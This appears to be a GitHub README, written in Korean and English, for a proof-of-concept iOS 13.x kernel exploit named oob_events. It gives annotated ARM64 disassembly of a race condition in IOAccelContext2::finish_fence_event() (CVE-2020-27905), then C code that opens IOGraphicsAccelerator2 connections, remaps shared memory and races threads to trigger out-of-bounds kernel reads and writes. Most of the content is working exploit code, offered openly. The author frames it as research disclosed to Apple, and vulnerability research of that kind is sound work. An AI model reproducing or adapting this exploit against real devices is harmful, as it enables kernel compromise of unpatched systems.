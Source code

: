 ## oob_events

#저자commnet

I've updated oob_events exploit and it should work fine 
in on A12+ devices (with 60 % of success rate) and ~95% in devices with lower ram size i.e A10.
Tested on iPhone 11 and iPhone 7.

다음은 PoC 커널 익스플로잇으로, iOS 13.7에서 커널 작업 포트를 얻는 방법을 보여줍니다. 
나중에 PoC를 작성하여 업데이트하겠습니다.


개인 장치에서 사용하거나 탈옥에 사용하지 않는 것이 좋습니다. 
장치가 불안정한 상태가 될 수 있습니다
I dont recommend using it in your personal device or to use it for a jailbreak. 
it may leave your device in unstable state. You’ve been warned.


arm64e의 익스플로잇은 iPhone 9,3 (9/10배 작동)과 달리
그다지 안정적이지 않으며 많은 커널 패닉이 예상되며 약간의 작업이
필요하고 이러한 익스플로잇을 일반화하고 모든 장치에서 작동하기는 어렵습니다.


IOGPU 제품군(IOAcceleratorFamily의 후속 제품)과 
함께 제공되는 iOS 14.1을 확인했지만 버그를 유발하는 
일치하는 패턴을 찾지 못했기 때문에 iOS 13.x 및 
IOAcceleratorFamily를 사용하는 모든 장치(예: macOS)에서만 작동합니다.

![8](8.png)
## oob_events.c
## IOAccelContext2::finish_fence_event() race condition OOB read/write
```
#if 0
IOAccelContext2::finish_fence_event() race condition OOB read/write

This is a method exposed to user space, it takes a kernel read-only shared memory
(type 2 via clientMemoryForType())  address and treats it as an IOAccelEvents Array.

The user supplied index is checked against the IOAccelEvents array bounds,since there are no
locks held in this method,it is possible to change the array bounds by calling
IOAccelContext2::clientMemoryForType() again in a separate thread, this will expand the size by
multiplying the older size by 2, but we still have a reference to the old shared memory address
with the size of the new one.Therefore, we created a condition where the scalar index is checked
against the new array size but we still have the old shared array reference.
From this condition,we can make IOAccelEvents array points to an arbitrary location, thus perform arbitrary
kernel read and semi-arbitrary kernel write.

fffffff0061f7fa4  ldr        x8,[x0, #0x6a8] .       // x8 takes a reference to shmem_addr but not atomically  
fffffff0061f7fa8  cbz        x8,LAB_fffffff0061f8010
fffffff0061f7fac  mov        x20,x0
fffffff0061f7fb0  ldr        w9,[x0, #0x6d8] .      
fffffff0061f7fb4  cmp        w1,w9, LSR #0x6 .       // scalar input is checked against the array bounds,
fffffff0061f7fb8  b.cs       LAB_fffffff0061f8020
....
fffffff0061f7fd4  blr        x8=>IOAccelEventMachineFast2::finishEventUnlocked                        

By completely controlling the IOAccelEvents content, we can perform multiple memory read/writes,
as shown in the disassembly below :

IOAccelEventMachineFast2::finishEventUnlocked()
LAB_fffffff00620e0c0                            XREF[1]:     fffffff00620e20c(j)  
    fffffff00620e0c0  ldr        x23,[x19, x26, LSL #0x3]
    fffffff00620e0c4  cmn        w23,#0x1
    fffffff00620e0c8  b.eq       LAB_fffffff00620e204
    fffffff00620e0cc  lsr        x22,x23,#0x20
    fffffff00620e0d0  smaddl     x25,w23,w28,x21  // x25 will point to arbitrary address , we completely control w23
    fffffff00620e0d4  ldr        w8,[x25, #0xf0]!  
    fffffff00620e0d8  sub        w8,w22,w8
    fffffff00620e0dc  cmp        w8,#0x1
    fffffff00620e0e0  b.lt       LAB_fffffff00620e204
    fffffff00620e0e4  sxtw       x24,w23
    fffffff00620e0e8  ldr        x8,[x21, #0x28] .  
    fffffff00620e0ec  ldr        x8,[x8, x24, LSL #0x3]
    fffffff00620e0f0  ldr        w8,[x8]   // OOB read since x24 is user controlled
    fffffff00620e0f4  str        w8,[x25]  // <---- OOB write


#endif
#include "client.h"

int start= 0;


io_connect_t iokit_get_connection(const char *name,u32 type)
{
    kern_return_t kr = KERN_SUCCESS;
    io_connect_t conn = MACH_PORT_NULL;
    io_service_t service  = IOServiceGetMatchingService(kIOMasterPortDefault,
                                                        IOServiceMatching(name));
    if (service == IO_OBJECT_NULL) {
        printf("unable to find service \n");
        exit(0);
    }

    kr = IOServiceOpen(service, mach_task_self(), type, &conn);
    //CHECK_MACH_ERR(kr,"IOServiceOpen");
    return conn;
}

void map_memory(io_connect_t c,u32 type, void *addr,size_t *size)
{
    kern_return_t kr = IOConnectMapMemory(c, type, mach_task_self(), (mach_vm_address_t *)addr, &size, 1);
    assert(kr == KERN_SUCCESS);
}


void s_finish_fence_event(io_connect_t c,u64 scalar0)
{
    int selector = 5;
    
    kern_return_t kr = IOConnectCallMethod(c, selector, (void*)&scalar0,1,
                 NULL, 0,
                 NULL, NULL,
                 NULL, NULL);

}

void *do_finish_fence_event(void *arg)
{
    io_connect_t c = *(io_connect_t *) arg;
    while(!start){}
    
    s_finish_fence_event(c, 0x100);
    return NULL;
}

void *do_map_memory(void *arg)
{
    io_connect_t c = *(io_connect_t *) arg;
    while(!start){}
    mach_vm_address_t addr = 0;
    mach_vm_size_t size = 0x0;
    
    //pthread_yield_np();
    map_memory(c,2,&addr,&size);
    return NULL;
}
#define THREADS 0x2
pthread_t ths[THREADS];

void doit(void)
{
    printf("Winning Race \n");
    
    while(1) {
        io_connect_t c = iokit_get_connection("IOGraphicsAccelerator2", 0);
        io_connect_t agxsh = iokit_get_connection("IOGraphicsAccelerator2", 2);
       
        IOConnectAddClient(c,agxsh);
        mach_vm_address_t addr = 0;
        mach_vm_size_t size = 0x0;
    
        char *ptr = (char *)addr;
        map_memory(c,2,&addr,&size);
    
        map_memory(c,0,&addr,&size);
        memset(addr,0xcc,0x4000);
        map_memory(c,1,&addr,&size);
        memset(addr,0x41,0x4000);

        u64 value = ((u64)0x41414141 << 0x20) | 0x42424242;
        memcpy(addr,&value,0x8);
        int thc = 1;
        pthread_t th[thc];

        for(int i=0; i< thc; i++) {
            pthread_create(&th[i],NULL,do_map_memory,(void *)&c);
        }
        for(int i=0; i< THREADS; i++) {
        
            pthread_create(&ths[i],NULL,do_finish_fence_event,(void *)&c);
        }
        
        start = 1;
        for(int i=0; i< THREADS; i++) {
            pthread_join(ths[i],NULL);

        }
        for(int i=0; i< thc; i++) {
            pthread_join(th[i],NULL);
        }
        IOServiceClose(c);
        IOServiceClose(agxsh);
    }

}
```

# 설명
The exploit uses two distinct vulnerabilities which I independently discovered and reported to Apple, CVE-2020-27905 which is a race condition leads to OOB read/write  via arbitrary 32-bit index,and CVE-2020-9964 which is a kernel  information leak bug.
